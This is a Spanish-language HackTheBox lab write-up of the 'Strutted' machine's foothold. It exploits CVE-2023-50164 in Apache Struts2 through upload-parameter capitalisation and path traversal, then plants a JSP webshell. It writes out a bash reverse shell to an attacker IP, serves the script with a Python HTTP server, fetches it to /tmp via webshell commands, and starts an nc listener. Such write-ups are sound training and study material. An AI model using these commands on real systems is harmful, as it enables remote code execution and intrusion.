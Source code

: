 ## Foothold

Para explotar esta vulnerabilidad. Primero, se intercepta la solicitud generada al subir una imagen a través de la interfaz web. Luego, se modifica el nombre del campo de carga `upload variable name` o `name` para que comience con una letra mayúscula. Este comportamiento específico es el que activa la ruta vulnerable en Struts2.

La explotación se realiza apuntando al endpoint `upload.action`, utilizando tres variables:

* Ruta del endpoint vulnerable: `/upload.action`
* Nombre del parámetro del archivo a subir: `Upload`
* Nombre del archivo "file name parameter": `UploadFileName`

Después, se aplica un path traversal modificando el nombre del archivo a una ruta como `../../test.txt`, lo cual permite escribir el contenido del archivo en un directorio arbitrario dentro del sistema de archivos del servidor. En este caso, el contenido de la imagen cargada queda almacenado directamente en el directorio raíz de la aplicación.

Este comportamiento confirma que la aplicación es vulnerable al CVE mencionado y permite continuar con la carga de un archivo malicioso para obtener una shell remota.

{% include embed/video.html src='assets/img/htb-writeup-strutted/strutted2_1.webm' types='webm' title='CVE-2023-50164 Test' autoplay=true loop=true muted=true %}

Una vez confirmada la vulnerabilidad, en lugar de subir un archivo TXT con el contenido de la imagen, procedí a cargar una webshell para lograr ejecución remota de comandos. Utilicé la [tennc-webshell](https://raw.githubusercontent.com/tennc/webshell/refs/heads/master/fuzzdb-webshell/jsp/cmd.jsp), una shell en JSP sencilla que permite ejecutar comandos del sistema a través de un campo de texto en una interfaz web.

Al acceder a `http://strutted.htb/shell.jsp`, se presenta un campo de entrada que permite ejecutar comandos de forma arbitraria en el sistema, confirmando así la ejecución remota de código.

{% include embed/video.html src='assets/img/htb-writeup-strutted/strutted3_1.webm' types='webm' title='CVE-2023-50164 Exploitation' autoplay=true loop=true muted=true %}

Generé una reverse shell y lo expuse mediante un servidor HTTP en mi máquina de atacante.

```terminal
/home/kali/Documents/htb/machines/strutted:-$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.88/4321 0>&1' > revsh.sh
```

```terminal
/home/kali/Documents/htb/machines/strutted:-$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Desde la webshell, descargué el script al sistema de la víctima y le otorgué permisos de ejecución.

```terminal
/home/kali/Documents/htb/machines/strutted:-$ curl http://strutted.htb/shell.jsp?cmd=wget%20http://10.10.15.88:8000/revsh.sh%20-O%20/tmp/revsh.sh
/home/kali/Documents/htb/machines/strutted:-$ curl http://strutted.htb/shell.jsp?cmd=chmod%20%2Bx%20/tmp/revsh.sh
```

```terminal
/home/kali/Documents/htb/machines/strutted:-$ sudo rlwrap nc -lnvp 4321
	listening on [any] 4321 ...
```
